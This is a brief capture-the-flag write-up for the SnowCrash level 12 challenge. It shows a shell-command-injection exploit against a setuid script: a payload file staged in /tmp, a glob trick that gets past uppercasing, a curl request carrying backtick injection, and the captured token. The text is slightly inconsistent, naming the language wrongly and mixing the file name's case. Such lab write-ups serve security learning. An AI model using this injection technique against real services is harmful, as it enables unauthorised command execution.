 # Snowcrash12

Same story, different script

```sh
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
The goal is also shell injection as the input is part of the command

Lua uses a lot of regex to modify it's strings
And so, our input gets in the command in uppercase so it cannot be a path to a command

But since it uses regex, we can do stuff like '/*/PAYLOAD' and it can be resolved to /tmp/PAYLOAD

the payload looks something like this 
```shell
echo "#!/bin/bash
getflag > /tmp/logfile" > /tmp/PIKA

#Then just send it
level12:~$curl 'localhost:4646?x=`/*/pika`'

level12:~$cat /tmp/logfile`'
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

```
Nice and easy